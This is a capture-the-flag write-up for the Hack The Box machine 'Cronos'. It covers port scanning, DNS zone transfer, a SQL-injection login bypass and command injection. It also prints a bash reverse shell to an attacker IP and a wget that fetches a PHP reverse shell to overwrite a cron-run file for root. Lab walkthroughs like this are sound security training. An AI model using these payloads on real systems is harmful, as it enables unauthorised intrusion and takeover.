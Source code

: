 # Cronos

**OS:** Linux

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/cronos)  [2](https://app.hackthebox.com/machines/Cronos)

**Machine ip:** 10.10.10.13

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/197dcde6-c564-41a2-83c6-17d2fc0e5895)


# Sections
+ [Enumeration](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/07_Cronos.md#enumeration)
+ [Gainin Access](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/07_Cronos.md#gainin-access)
+ [Privilege Escalation](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/07_Cronos.md#privilege-escalation)
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/07_Cronos.md#links)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.13 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.13`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/91f25735-459a-4a75-a798-2c419bd4a7c1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7764b71-bd50-4af5-ab88-80b1f69cbd8b)

+ dns enumeration: `nslookup`
```
└─$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8878f5ed-c712-45c6-aa14-0b093ff5139c)

+ dns enumeration: `nslookup host [server]`
+ `nslookup 10.10.10.13 10.10.10.13`
```
└─$ nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/08c7ad57-ee86-4e75-8e75-e12dd33f9c64)

+ Zone transfer: `host -l <domain-name> <dns_server-address>`
+ `host -l cronos.htb 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/85af127e-788f-4388-960a-f43543698b49)


+ Zoner transfer: `dig axfr @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ac1ace97-a6ec-4bb8-958d-5d740aaf4e59)

+ `dig any @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc415b9e-da19-489d-a4b8-8ca809bf085b)

+ Add domains into `/etc/hosts` file
```
echo "10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

+ Enumerate subdomain:
```
gobuster dns -d cronos.htb -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/443694fe-6171-479f-8ff4-92d5bc986ca1)

+ Navigate to `http://admin.cronos.htb/`
+ Login bypass injecting `admin' or '`:`pass`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9bcf5f5e-d294-4d8c-94c1-e7b104bbd065)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4e8644a6-27b4-4344-89e3-1212103589d8)

+ Use `;` to inject command, and that works.

## Gainin Access

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5933aa22-258b-4e2a-a2ec-dd75145e7892)

+ Start a netcat listener: `nc -lnvp 4444`
+ Inject reverse payload after `;`  `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"` and execute.
+ Get shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/765ae797-f4f3-4efc-8602-2587e6aeba6a)


## Privilege Escalation

+ Check cronjobs: `cat /etc/crontab` on the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f5fd4a0-4895-4cbb-bc40-6ef8ece43146)

+ `cp /usr/share/webshells/php/php-reverse-shell.php shell.php` on your attack machine.
+ Change ip address and port number.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b08c2273-d780-4622-9ed4-f50cd8f50d9b)

+ Start `python3 -m http.server` on the attack machine.

+ Transfer to the target.
+ `cd /var/www/laravel/` on the target.
+ `wget 10.10.14.18:8000/shell.php -O artisan` on the target.
+ `chmod +x artisan` on the target.

+ Start listener: `nc -lnvp 5555` on your attack machine.
+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bca0fd82-2a1b-4293-bbe0-8f697cba3cdd)

---

# Links

# References & Alternatives
+ https://vvmlist.github.io/#cronos
+ https://0xdf.gitlab.io/2020/04/14/htb-cronos.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/cronos-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-cronos/
+ https://alessandrocristofanilli.xyz/posts/htb-cronos/
+ https://systemweakness.com/htb-cronos-walkthrough-3f669386b681
+ https://dev.to/sshad0w/hack-the-box-writeup-cronos-21bn
+ https://www.noobsec.net/hackthebox/htb-cronos/
+ https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726
+ https://sevenlayers.com/index.php/133-hackthebox-cronos-walkthrough
